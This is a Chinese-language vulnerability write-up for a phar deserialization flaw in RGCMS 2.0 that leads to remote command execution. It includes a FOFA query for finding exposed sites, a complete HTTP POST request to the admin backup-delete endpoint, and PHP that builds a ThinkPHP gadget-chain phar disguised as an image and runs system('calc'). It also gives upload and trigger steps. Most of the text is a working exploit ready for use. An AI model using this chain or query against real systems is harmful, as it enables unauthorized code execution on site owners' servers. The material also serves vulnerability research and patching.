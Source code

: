 # RGCMS2.0存在phar反序列化漏洞

**RGCMS存在反序列化漏洞，攻击者可以通过该漏洞执行任意命令。**

## fofa

```javascript
"RGCMS"
```

## poc

```javascript
POST /admin.php/data/delbackup HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 212
Origin: http://rgcms:81
Connection: close
Referer: http://rgcms:81/admin.php/data/backuplist
Cookie: PHPSESSID=us9vfbgeh2i9c5kcp7h27ii8ns
Priority: u=0

title=20240820110529_rgcms.db&path=phar://upload/image/20240820/2057e04b4b2d528ed7726d233fc87191.png&children=&mtime=2024-08-20+11%3A05%3A29&size=1.09MB&type=file&ext=db&isReadable=true&isWritable=true&edit=false
```

**漏洞复现**

生成phar文件

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("smi1e" => "system");

        public function get()
        {
            $this->data = array("smi1e" => "calc");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct()
        {
            $this->get();
        }
    }
}

namespace {

    $conver = newthink\model\Pivot();
    $a = new think\process\pipes\Windows($conver);


    $phar = new Phar('hkey.phar');
    $phar -> stopBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($a);
    $phar -> stopBuffering();
}
?>
```

**把hkey.phar文件名修改为hkey.png**

**安装时RGCMS时选择数据库类型为：Sqlite**

![4e0412e97319c4cab7d8676d59484750](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502061633854.jpg)



**上传恶意的png文件：**

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502061633107.jpeg)

来到备份修复功能

![9427ecd99f1abb35cff8de1089d5211b](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502061633615.png)

![89c3630e24a51314c2328e9d0bfcecf6](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502061634669.jpg)

![90be81b23edef08235fbdec978300ad1](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502061634102.png)

**将数据包中path参数修改为**

**phar://upload/image/20240820/2057e04b4b2d528ed7726d233fc87191.png**

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502061634602.png)





## 漏洞来源

- https://mp.weixin.qq.com/s/WxffySGN33r-7ZJtD40BKA